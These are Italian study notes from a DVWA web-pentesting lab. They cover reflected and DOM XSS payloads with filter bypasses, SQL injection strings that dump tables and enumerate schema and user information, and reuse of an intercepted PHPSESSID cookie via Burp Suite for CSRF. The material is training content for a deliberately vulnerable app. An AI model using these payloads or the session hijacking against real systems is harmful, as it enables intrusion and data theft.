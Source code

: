 # DVWA

https://hub.docker.com/r/vulnerables/web-dvwa

https://www.blackmoreops.com/2018/11/13/configure-your-web-application-pentesting-lab/2/

xss = cross site scripting

## XSS Reflected

### Low

da 

```
?name=nome_inserito#
```

cambiamo aggiungiamo all'url lo script malevolo

```
?name=<script>alert(1)</script>
```

### Medium

in questo caso il tag script viene sostiut con un una stringa vuota tramite str_replace(), ma non controlla solamente `script`

```
?name=<Script>alert(1)</Script>
```

### High

in questo caso il case delle lettere viene preso in considerazione

```
?name=<img src=x onerror=alert(1)>
```

bypassiamo la funzione php che impediva di eseguire un qualsiasi comando che iniziava con `<script` 



## XSS DOM

### Low

come sopra, sostituiamo 

```
?default=French
```

con 

```
?default=French<script>alert('HACK')</script>
```

### Medium

non ammette tag script, nè maiuscolo nè minuscolo

```
?default=<</select><img src="#" onclick=alert("HACK")>
```

con # vediamo il contenuto del select

aggiungiamo poi un'immagine con codice malevolo 



## SQL Injection

### Low

```
%' or '0'='0
```

ci mostra l'intero contenuto della tabella

```
%' or 0=0 union select null, version() #
```

vediamo la versione del database, utile per eseguire exploit secifici

```
%' or 0=0 union select null, user() #
```

```
%' and 1=0 union select null, table_name from information_schema.tables #
```

```
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%' #
```

# Cross Site Request Forgery (CSRF)

va a sfruttare l'arhitettura di base del protocollo http e la sessione di autenticazione. Puà sfruttare sessioni aperte su un sito che non vengono chiuse alla chiusura del browser

**token csrf** rende impossibile all'utente malintenzionato di costruire una richiesta http (eg google authenticator)

generato dal server, privato e segreto

## per installare burpsuite

foxy proxy -ip 127.0.0.1 -porta 8080

burpsuite su google -> scarica certificato e importa su firefox (privacy&security-certificate-import)

## CSRF

burpsuite - proxy - lometto in ascolto -> cambio la password sul sito e intercetto il traffic con burpsuite

vediamo che c'è un cookie: PHPSESSID

burpsuite - repeater

si può usare il PHPSESSID per fare richieste come se fossimo l'utente loggato anche esternamente
